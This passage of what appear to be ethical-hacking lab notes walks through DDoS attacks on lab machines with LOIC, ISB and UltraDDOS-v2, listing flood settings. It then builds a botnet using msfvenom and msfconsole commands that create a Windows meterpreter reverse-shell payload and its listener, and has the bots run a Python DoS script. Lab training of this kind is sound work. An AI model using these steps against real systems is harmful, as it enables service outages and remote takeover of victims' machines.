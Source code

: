 #### 1.5 Perform DDOS using LOIC
<img width="768" height="404" alt="image" src="https://github.com/user-attachments/assets/feb9b588-eac4-42ac-8bab-450fd42d5546" />

#### 1.6 Perform a DDoS Attack using ISB and UltraDDOS-v2

**ISB Tool**    
[ISB](https://sourceforge.net/projects/isb/)

**Steps**:
1. One the ISB tool, ISB window appears, using this tool we can perform various attacks such as HTTP Flood, UDP Flood, TCP Flood, TCP Port Scan, ICMP Flood, and Slowloris. Additionally, we can gather Target Info using the WHOIS, NS, TRACEROUTE, BROWSER, PING options present in the tool.
2. Here, we will perform TCP Flood attack on the target Windows Server 2019 machine. To do so, enter the IP address of the Windows Server 2019 in the URL: field (here, 10.10.1.19), port number (here, 80) in the Port: field and click on Set Target.
3. The IP address of Windows Server 2019 along with the port number appears in the Set: field.
4. Now, under Attacks navigate to TCP Flood tab and type 10 in the Interval field, 256 in the Buffer field and 1000 in the Threads field.
5. Leave the ISB window running and click Windows Server 2022 to switch to the Window Server 2022 machine.    
    
**Ultra DDOS tool**    
[UltraDDOS-v2](https://sourceforge.net/projects/ultraddos/)

**Steps**:
1. Run ultraddos.exe file.
2. A Command Prompt window appears, in the Ultra DDOS v2 window, click OK.
3. In the Ultra DDOS v2 window, click on DDOS Attack button.
4. In the Please enter your target. This is the website or IP address that you want to attack. field, type 10.10.1.19 (IP address of Windows Server 2019 machine) and click OK.
5. In the Please enter a port. 80 is most commonly used, but you can use any other valid port. field, enter 80 and click OK.
6. In the Please enter the number of packets you would like to send. More is better, but too many will crash your computer. field, type 1000000 and click on OK.
7. In the Please enter the number of threads you would like to send. This can be the same number as the packets. field, type 1000000 and click on OK.
8. In the The attack will start once you press OK. It will keep going until all requested packets are sent. pop-up window, click OK.
9. As soon as you click on OK the tool starts DoS attack on the Windows Server 2019 machine.
10. Click Windows 11 to switch to the Windows 11 machine, and in the ISB window click on Start Attack button.
> You can open the resource monitor to view that resources are being exhausted.

#### 1.7 Perform a DDoS Attack using Botnet
- Create a metasploit exploit.
  - `msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=6969 -f exe > exploit1.exe`
- Similarly make exploits fir each of your bot.
- Now, you can directly run multihandle, running the following command.
  - `msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 10.10.1.13; set lport 6969; run"`
- Now, you can upload scripts to exploited targets.
- [GitHub - WH1T3-E4GL3/eagle-dos: light weight dos attack tool to attack to a single port to any network.s](https://github.com/WH1T3-E4GL3/eagle-dos)
- Now, you can run the script from all your bots.
- Run the DDoS file using command python eagle-dos.py on windows shell terminal. It will ask for Target's IP, type 10.10.1.9 and hit enter.

---